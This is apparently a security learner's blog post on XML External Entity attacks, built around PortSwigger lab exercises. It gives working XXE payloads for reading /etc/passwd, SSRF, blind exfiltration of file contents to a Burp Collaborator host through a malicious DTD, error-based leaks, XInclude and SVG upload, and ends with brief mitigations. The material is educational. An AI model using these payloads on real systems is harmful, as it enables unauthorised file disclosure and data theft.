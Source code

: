 ```yaml
---
title: "XML External Entity"
tags:
    - WEB
    - xxe
date: "2024-08-8"
thumbnail: "/assets/img/thumbnail/xxe.png"
bookmark: true
---
```

# Description
---
Some applications use the XML format to transmit data between the browser and the server
`XML:` Extensible Markup Language, commonly used for data representation and transfer.
`External Entity:` A reference within the XML document to an external resource, which can be a file, URL, or another data source
# Impact 
use external entities to →
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
T**Types of XXE attacks:**
1- Exploiting XXE to retrieve files
2- Exploiting XXE to perform SSRF attacks
3- Exploiting blind XXE to exfiltrate data out-of-band
4- Exploiting blind XXE to retrieve data via error messages
# Portswigger Scenarios 
Tip : "GET request for XML not found" changes the request to POST with XXE payload
 1- **retrieve the `/etc/passwd`file**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
 2- **XXE to SSRF**
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`
```
 3- **Blind XXE with out-of-band interaction**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE fee [ <!ENTITY xxe SYSTEM "http://burp-collab"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
 4- **Exploiting blind XXE to exfiltrate data using a malicious external DTD with (BURP-COLLABORATOR)**

in malicious DTD file:
```xml 
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
in Request:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploi.lab_id.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
 5- **Exploiting blind XXE to retrieve data via error messages**
in malicious DTD file:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
in Request:
```xml
<!DOCTYPE foo [<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
 6- **using local DTD**

1- find DTD file already exists on server , we use this list https://github.com/GoSecure/dtd-finder/tree/master/list
with intruder in tis Request
<img src="/assets/img/xxe/1.png">
2- use this code 
https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
 7- **XInclude attacks**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
<img src="/assets/img/xxe/2.png">

 8- **Exploiting XXE via image file upload**

SVG image with the following content:
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
---
# mitigation
---
- Disable External Entities: Configure the XML parser to disable the resolution of external entities.
- Use Safe Parsers: Utilize XML parsers that are known to be secure against XXE attacks.
- Input Validation: Validate and sanitize all user inputs, especially XML data, to ensure it doesn't contain malicious content.

---

Reference 4 all exploits [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity]
